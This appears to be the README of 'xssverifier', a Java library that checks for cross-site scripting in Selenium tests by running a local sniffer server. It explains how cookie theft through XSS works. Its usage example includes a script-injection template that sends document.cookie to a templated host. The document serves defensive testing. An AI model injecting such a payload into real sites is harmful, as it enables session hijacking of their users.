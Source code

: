 # xssverifier
A little project for XSS-safe verification for Selenium

        <dependency>
            <groupId>com.github.eljah</groupId>
            <artifactId>xssverifier</artifactId>
            <version>0.1</version>
        </dependency>

How does the XSS and XSS sniffers work? XSS injection is a value inserted into some input text field that appears in some other pages. If in other pages where the value is displayed, the page can allow malicious javascript from the value to work. Javascript can just create an image or iframe with url on the third-party server. The URL of the resource requested by the malicious javascript will contain the value of document.cookie. If page allows maliciuos javascript to request image or iframe with URL like http://host:port//resource_prefix?document.cookie the third-party server, the sniffer, will receive the hijacked cookie value. That means that XSS attack has succeed and the attacker can use the cookie.

To prove the wep applications are XSS-free Selenium test can be used (o you can instrument your already existing test with XSS check). In the beggining of test scenario insert the injected value to some input field. Then go through all application pages that show this kind of values with Selenium. If at least at one page XSS succeed, the sniffer will receive the cookie, the XSS succeed flag will be set. In the end of the test verify that sniffer was not requested at all.

In order to do ethicial XSS testing you require simple http server running on the localhost (i.e on the same machine as browser opening the application). The Xssverifier software runs on the top of lightweight nanohttpd java http server.

##Usage example
```java
XSSCheck x=XSSVerifier.createNewCheck(4567,"xss.gif","<script> img = new Image(); img.src = \"http://%1$s:%2$d/%3$s?\"+document.cookie; </script>");
/* 4567 is a port number where the XSS checker's embbedded http server runs, xss.gif is a resource, the last string is  javascript injection template*/

//check occurs behind the scene
//to ensure it works open localhost:4567/xss.gif in your browser

while (!x.getXSSURLCalledStatus())
{
    Thread.sleep(1000);
    System.out.println("wait 1...");
}

//the XSS host and resource were requested but not nessessarily some parameter was passed
//to ensure it works open localhost:4567/xss.gif?sometext in your browser

while (!x.getXSSCookiePassedStatus())
{
    Thread.sleep(1000);
    System.out.println("wait 2...");
}

//the XSS host and resource were requested and some parameter was passed but that was not the hijacked cookie
//to ensure it works open localhost:4567/xss.gif?visited=02022015 in your browser

while (!x.getXSSCookieHijacked("visited"))
{
    Thread.sleep(1000);
    System.out.println("wait 3...");
}

//the XSS host and resource were requested, some parameter was passed and this parameter is cookie named visited
//so the particular cookie was hijacked and that was verified
```

##Notes
The xssverifier library doesn't check availability of the ports on your local machine. You should ensure that port is not already bint before creating the sniffer.
